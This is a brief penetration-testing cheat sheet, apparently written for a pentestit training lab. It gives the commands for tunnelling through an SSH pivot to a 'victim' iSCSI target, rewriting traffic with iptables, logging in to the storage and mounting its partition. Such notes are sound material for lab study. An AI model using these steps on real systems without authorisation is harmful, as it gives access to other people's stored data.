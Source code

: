 # ISCSI On the Network

## Dependency Setup
```
apt install open-iscsi
```

## Forward your port to the victim
```
ssh -L 3260:192.168.0.3:3260 d.nash@192.168.101.8

iscsiadm -m discovery -t sendtargets -p 127.0.0.1
iptables -t nat -A OUTPUT -d 192.168.0.3 -j DNAT --to-destination 127.0.0.1
cat /proc/partitions
iscsiadm -m node --targetname=iqn.2016-05.ru.pentestit:storage.lun0 -p 192.168.0.3 --login -d 8
mount -o ro /dev/sdb1 /mnt/
```

## Check which new partitions appeared
```
cat /proc/partitions
```

tags: #iscsi 
